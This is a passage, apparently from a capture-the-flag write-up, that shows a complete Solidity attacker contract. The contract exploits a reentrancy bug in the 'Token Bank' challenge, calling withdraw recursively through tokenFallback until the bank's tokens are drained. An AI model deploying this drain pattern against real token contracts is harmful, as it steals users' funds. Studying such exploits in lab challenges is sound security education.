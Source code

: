 Here's the attacker contract facilitating all of this.

```solidity
contract TokenBankAttacker {
    ITokenBankChallenge public challenge;

    constructor(address challengeAddress) {
        challenge = ITokenBankChallenge(challengeAddress);
    }

    function deposit() external payable {
        uint256 myBalance = challenge.token().balanceOf(address(this));
        // deposit is handled in challenge's tokenFallback
        challenge.token().transfer(address(challenge), myBalance);
    }

    function attack() external payable {
        callWithdraw();
        // if something went wrong, revert
        require(challenge.isComplete(), "challenge not completed");
    }

    function tokenFallback(
        address from,
        uint256 value,
        bytes calldata
    ) external {
        require(
            msg.sender == address(challenge.token()),
            "not from original token"
        );

        // when attacker EOA deposits, ignore
        if (from != address(challenge)) return;

        callWithdraw();
    }

    function callWithdraw() private {
        // this one is the bugged one, does not update after withdraw
        uint256 myInitialBalance = challenge.balanceOf(address(this));
        // this one from the token contract, updates after withdraw
        uint256 challengeTotalRemainingBalance =
            challenge.token().balanceOf(address(challenge));
        // are there more tokens to empty?
        bool keepRecursing = challengeTotalRemainingBalance > 0;

        if (keepRecursing) {
            // can only withdraw at most our initial balance per withdraw call
            uint256 toWithdraw =
                myInitialBalance < challengeTotalRemainingBalance
                    ? myInitialBalance
                    : challengeTotalRemainingBalance;
            challenge.withdraw(toWithdraw);
        }
    }
}
```
